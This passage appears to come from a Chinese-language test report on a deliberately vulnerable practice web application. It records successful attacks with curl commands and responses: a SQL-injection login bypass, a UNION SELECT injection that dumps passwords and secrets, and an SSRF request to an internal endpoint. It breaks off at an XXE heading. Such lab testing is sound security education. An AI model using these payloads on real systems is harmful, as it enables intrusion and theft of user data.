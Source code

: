 ### 🔍 **2. SQL注入 - 测试通过**

#### 登录绕过攻击 ✅
```bash
# 测试命令
curl -X POST http://localhost:8080/api/sqli/vulnerable/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\'' OR '\''1'\''='\''1'\'' --", "password": "anything"}'

# 测试结果
{
  "message": "登录成功",
  "users": [
    {"id": 1, "username": "admin", "email": "admin@example.com", "role": "ADMIN"},
    {"id": 2, "username": "john", "email": "john@example.com", "role": "USER"},
    // ... 更多用户
  ]
}
```
**验证**: ✅ 成功绕过认证，获取所有用户信息

#### 联合查询注入 ✅
```bash
# 测试命令
curl -X GET "http://localhost:8080/api/sqli/vulnerable/search?keyword=' UNION SELECT id,username,password,email,role,secret FROM users --"

# 测试结果
返回所有用户的敏感信息，包括密码和secret字段
```
**验证**: ✅ 成功执行UNION查询，获取数据库中所有用户的敏感信息

### 🔍 **3. SSRF (服务器端请求伪造) - 测试通过**

#### 内网访问 ✅
```bash
# 测试命令
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/fetch?url=http://localhost:8080/api/ssrf/info"

# 测试结果
{
  "title": "SSRF漏洞测试",
  "endpoints": [...],
  "safe_domains": [...],
  "attack_scenarios": [...]
}
```
**验证**: ✅ 成功通过SSRF访问内部服务，获取内部系统信息

### 🔍 **4. XXE (XML外部实体注入) - 测试通过**
